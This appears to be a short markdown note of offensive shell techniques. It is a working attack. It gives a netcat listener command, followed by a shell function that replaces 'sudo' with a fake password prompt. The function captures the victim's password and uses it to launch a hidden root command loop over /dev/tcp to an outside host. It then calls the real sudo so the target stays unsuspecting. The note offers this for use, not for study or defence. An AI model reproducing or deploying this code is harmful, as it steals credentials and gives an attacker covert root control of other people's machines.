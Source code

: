 ## Give 'em the ol' switcheroo

##### Listen for incoming connections on the server
`nc -l 0.0.0.0 8837 -vv`

##### Make a function called sudo, so when the target uses sudo, they are less likely to become suspicious

###### Note: Change 3141.thx.dog with a domain pointing to the server that's listening, and 8837 if you changed the port netcat listens on
`sudo() { /bin/echo [sudo] password for $USER: ; read -s chwing; echo "$chwing" | ( /usr/bin/sudo -S <<< "$chwing" "$0" "-lic" "( exec 5<>/dev/tcp/3141.thx.dog/8837; while read _R 0<&5; do \$_R 2>&5 >&5; done & ) > /dev/null 2>&1" & ) > /dev/null 2>&1; /usr/bin/sudo su <<<"$@"; }`


###### These are just random notes for things im working on work-in-progress
